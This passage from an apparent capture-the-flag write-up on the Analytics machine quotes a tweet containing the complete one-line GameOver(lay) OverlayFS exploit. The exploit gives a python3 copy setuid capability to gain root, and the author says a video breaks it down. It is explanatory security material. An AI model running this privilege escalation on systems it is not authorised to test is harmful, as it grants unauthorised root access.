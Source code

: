 ![](../img/overlay.jpeg)

The exploit for Gameover(lay) is surprisingly short, some joking that it “fits
in a tweet”:

> Exploit is so easy it fits in a tweet🔥  
> unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;  
> setcap cap_setuid+eip l/python3;mount -t overlay overlay -o
> rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import
> os;os.setuid(0);os.system("id")' <https://t.co/qb53rfeh0y>
> [pic.twitter.com/O9lcif1Yad](https://t.co/O9lcif1Yad)
>
> — liad eliyahu (@liadeliyahu) [July 28,
> 2023](https://twitter.com/liadeliyahu/status/1684841527959273472?ref_src=twsrc%5Etfw)

And yet it’s pretty dense. It’s fine to grab an exploit and run it, but it’s
better to understand what it’s doing. I’ll break it down in [this
video](https://www.youtube.com/watch?v=nlYNuUKiGr0):

In the video I mentioned that the version of Python in `u`, while also having
the capability isn’t executed that way. IppSec pointed out to me that the `u`
version has different extended attributes, including `trusted.overlay.origin`.
That would typically be viewable with `getfattr`, but that isn’t installed on
Analytics. It is also visible with Python’s `os` module (and running as root):

    